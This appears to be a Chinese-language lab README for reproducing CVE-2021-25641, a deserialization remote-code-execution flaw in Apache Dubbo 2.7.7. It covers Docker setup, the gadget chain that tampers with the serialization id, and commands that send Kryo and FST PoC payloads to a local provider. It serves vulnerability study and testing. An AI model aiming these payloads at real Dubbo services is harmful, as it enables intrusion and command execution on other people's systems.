

# Apache Dubbo Serialization ID 反序列化远程命令执行漏洞（CVE-2021-25641）

Apache Dubbo 是一款高性能 Java RPC 服务框架。

Apache Dubbo 2.5.0 至 2.6.8、2.7.0 至 2.7.7 版本中，Dubbo RPC 协议解码流程存在反序列化漏洞。Dubbo 为 Hessian2 反序列化增加了安全控制，但实际使用的序列化协议由 RPC 请求头中的 serialization id 决定。攻击者可以篡改该 id，强制 Provider 使用 Kryo 或 FST 等其他序列化器反序列化请求数据，从而绕过 Hessian2 黑名单或白名单保护，最终可能导致远程命令执行。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2021-25641>
- <https://securitylab.github.com/advisories/GHSL-2021-034_043-apache-dubbo/>
- <https://lists.apache.org/thread.html/r99ef7fa35585d3a68762de07e8d2b2bc48b8fa669a03e8d84b9673f3%40%3Cdev.dubbo.apache.org%3E>
- <https://checkmarx.com/blog/the-0xdabb-of-doom-cve-2021-25641/>

## 环境搭建

执行如下命令启动 Apache Dubbo 2.7.7：

```
docker compose up -d
```

服务启动后，Dubbo Provider 会监听 `your-ip:20880`。这个环境将注册中心地址设置为 `N/A`，因此不需要 ZooKeeper 或其他注册中心服务。

## 漏洞复现

先使用 Java 8 构建外部 Dubbo PoC JAR：

```
(cd ../../base/dubbo/poc && mvn clean package)
```

PoC 会在 Provider 容器外生成 Dubbo RPC 请求。Provider 被配置为使用 Hessian2，但 PoC 会篡改 RPC 请求头中的 serialization id，使服务端改用 Kryo 或 FST 解码请求体。Payload 使用 Fastjson gadget 链：将 `TemplatesImpl` 命令执行 gadget 包装到 Fastjson `JSONObject` 中，再通过 Spring AOP 和 `XString` 的 `toString()` 触发链在反序列化过程中执行。

首先，向 Provider 发送一个 Kryo 请求：

```
java -jar ../../base/dubbo/poc/target/dubbo-poc-1.0-SNAPSHOT.jar CVE-2021-25641 127.0.0.1 20880 kryo
```

然后，向同一个 Provider 发送一个 FST 请求：

```
java -jar ../../base/dubbo/poc/target/dubbo-poc-1.0-SNAPSHOT.jar CVE-2021-25641 127.0.0.1 20880 fst
```

发送两个 Payload 后，进入 Provider 容器验证命令执行结果：

```
docker compose exec provider ls -l /tmp/success-kryo /tmp/success-fst
```

如果可以看到 `/tmp/success-kryo` 和 `/tmp/success-fst` 文件，即说明 Provider 接受了客户端可控的 serialization id，并使用 Kryo 和 FST 而不是配置中的 Hessian2 序列化器反序列化 Fastjson gadget payload。


